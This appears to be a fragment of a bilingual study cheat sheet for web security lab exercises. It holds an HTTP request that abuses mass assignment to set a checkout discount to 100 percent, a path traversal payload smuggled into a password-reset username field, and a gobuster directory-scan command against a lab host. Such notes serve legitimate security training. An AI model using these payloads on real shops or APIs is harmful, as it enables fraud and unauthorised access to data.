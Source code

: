 - Mass-Assigment

```http
- VIEW OBJECT -

GET /api/checkout
```
```json
{
    "chosen_discount":{
        "percentage":0
    },
    "chosen_products":[
        {
            "product_id":"1",
            "quantity":1
        }
    ]
}
```

```http
- MASS ASSIGMENT -

POST /api/checkout
Content-Type: application/json

{
    "chosen_discount":{
        "percentage":100
    },
    "chosen_products":[
        {
            "product_id":"1",
            "quantity":1
        }
    ]
}
```

- Path Traversal

```http
POST /forgot-password


username=administrator/../../../../../openapi.json#
```

## Explotación de un endpoint usando la documentación || Exploiting an API endpoint using documentation

```bash
❯ gobuster dir -u https://0afa00be03681a5d82c915b40010002e.web-security-academy.net/ -w BSCP/burp-paths.txt -t 20 --follow-redirect
```
